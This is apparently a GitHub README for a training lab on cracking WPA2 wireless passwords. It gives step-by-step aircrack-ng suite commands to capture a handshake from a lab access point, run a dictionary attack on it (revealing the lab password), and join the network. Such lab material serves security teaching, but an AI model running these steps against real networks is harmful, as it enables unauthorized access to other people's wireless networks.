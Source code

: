 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatiable with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
You will walk through the process of monitoring wireless networks and capturing a WPA2 handshake. You will need one Terminal window open to execute the following steps.

1. In your terminal, execute the iwconfig command to show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning | grep -B 5 'RSSC'
```
* grep 'RSSC' prints lines matching the pattern 'RSSC'
* grep -B 5 'RSSC' prints out lines matching the pattern 'RSSC' and the 5 lines before the match.

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
You can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –-bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the 'mac-address' and 'channel' with what you found in step 3 and give it a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon --bssid 00:30:44:27:E3:38 --channel 1 --write rssc
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the terminal window. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + c’. An 'ls' after you break out should display 'rssc-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng rssc-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the path to the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

## Connecting to Wireless Network

Now that you have the WPA2 password, you can get onto the 'RSSC' network.

9. Before we can use the wireless card, we need to take it out of monitoring mode. 
```bash
airmon-ng stop wlan0mon
```

10. Back on the Kali Linux desktop, select the icon at the bottom of the sidebar titled 'Show Applications'. Use the 'Type to search' box to search 'Settings' and open it. Select Wi-Fi and find 'RSSC' under 'Visible Networks'. Select it and type in the password (Drowssap2) to connect to the network.

11. Back in terminal, type:
```bash
ping 192.168.0.1
```
This IP address is the AP/Router that is broadcasting this SSID. If you are able to ping it successfully, you have gotten onto the network. If not, make sure you are connected to the 'RSSC' network and try again.

## Clean-up
12. Run the following command to run a script to delete all the files you created and reset the network settings:
```bash
./cleanup.sh
```
